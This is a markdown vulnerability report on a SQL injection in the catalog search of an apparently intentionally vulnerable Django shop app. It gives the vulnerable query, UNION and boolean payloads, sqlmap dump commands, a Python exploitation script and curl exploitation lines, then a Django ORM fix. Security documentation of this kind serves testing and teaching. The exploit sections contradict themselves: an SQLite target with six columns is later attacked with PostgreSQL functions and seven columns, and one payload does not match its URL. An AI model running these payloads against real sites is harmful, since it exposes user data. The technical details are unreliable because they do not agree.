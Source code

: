 # SQL Injection Vulnerability Documentation

## Vulnerability Overview
**Type**: SQL Injection  
**Location**: `/catalog/?q=` search functionality  
**File**: `eshop/views.py` - `catalog_view` function (lines 360-396)  
**Severity**: Critical  
**OWASP Category**: A03:2021 – Injection  

## Technical Details

### Vulnerable Code
```python
raw_query = f"""
SELECT id, name, description, price, created_at, updated_at 
FROM eshop_product 
WHERE name LIKE '%%{search_query}%%' 
OR description LIKE '%%{search_query}%%'
"""
cursor.execute(raw_query)
```

The vulnerability exists because user input from the `q` parameter is directly concatenated into the SQL query without any sanitization or parameterization.

## Exploitation Steps

### 1. Basic Boolean-Based Injection
**Payload**: `' OR '1'='1`  
**URL**: `http://localhost:8000/catalog/?q=' OR '1'='1`  
**Effect**: Returns all products in the database

### 2. Union-Based Injection (SQLite - 6 columns)
**Payload**: `' UNION SELECT '11111111-1111-1111-1111-111111111111', username, email, 0, date_joined, last_login FROM eshop_customuser --`  
**URL**: `http://localhost:8000/catalog/?q=' UNION SELECT id, username, email, 0, date_joined, last_login FROM eshop_customuser --`  
**Effect**: Extracts usernames and emails from user table

### 3. SQLite Version Extraction
**Payload**: `' UNION SELECT '11111111-1111-1111-1111-111111111111', sqlite_version(), 'Version', 0, '2024-01-01', '2024-01-01' --`  
**Effect**: Reveals SQLite database version

### 4. Table Enumeration
**Payload**: `' UNION SELECT '11111111-1111-1111-1111-111111111111', name, 'Table', 0, '2024-01-01', '2024-01-01' FROM sqlite_master WHERE type='table' --`  
**Effect**: Lists all table names in the database

## Proof of Concept

### Using SQLMap (Confirmed Working)
```bash
# This command successfully dumps the user table
sqlmap -u "http://localhost:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID" \
       --batch \
       --threads 8 \
       -T eshop_customuser \
       --dump

# Basic detection
sqlmap -u "http://localhost:8000/?q=test" \
       --cookie="sessionid=YOUR_SESSION_ID" \
       --batch \
       --risk=3 \
       --level=5 \
       --dbs
```

### Manual Exploitation Script
```python
import requests

# Extract database name
payload = "' UNION SELECT NULL,current_database(),NULL,NULL,NULL,NULL,NULL--"
response = requests.get(f"http://localhost:8000/catalog/?q={payload}")
print(response.text)

# Extract table names
payload = "' UNION SELECT NULL,table_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.tables WHERE table_schema='public'--"
response = requests.get(f"http://localhost:8000/catalog/?q={payload}")
print(response.text)
```

## Impact Analysis

### Confidentiality Impact
- Access to all database contents
- User credentials exposure
- Personal information disclosure
- Business data theft

### Integrity Impact
- Data modification capability
- Product price manipulation
- Order tampering
- Account takeover

### Availability Impact
- Database resource exhaustion
- Denial of Service attacks
- Data deletion capability

## Remediation

### Immediate Fix
Replace the vulnerable code with parameterized queries:

```python
# Secure implementation using Django ORM
products = Product.objects.filter(
    Q(name__icontains=search_query) | 
    Q(description__icontains=search_query)
)
```

### Additional Security Measures
1. **Input Validation**: Whitelist allowed characters
2. **Prepared Statements**: Use parameterized queries
3. **Least Privilege**: Database user with minimal permissions
4. **WAF Rules**: Block common SQL injection patterns
5. **Security Headers**: Add X-Content-Type-Options

## Testing Commands

### Detection
```bash
# Check if vulnerable
curl "http://localhost:8000/catalog/?q='+OR+'1'='1"

# Time-based detection
time curl "http://localhost:8000/catalog/?q=';SELECT+pg_sleep(5)--"
```

### Exploitation
```bash
# Extract database version
curl "http://localhost:8000/catalog/?q='+UNION+SELECT+NULL,version(),NULL,NULL,NULL,NULL,NULL--"

# Extract current user
curl "http://localhost:8000/catalog/?q='+UNION+SELECT+NULL,current_user,NULL,NULL,NULL,NULL,NULL--"
```

## References
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)
- [SQLMap Documentation](https://sqlmap.org/)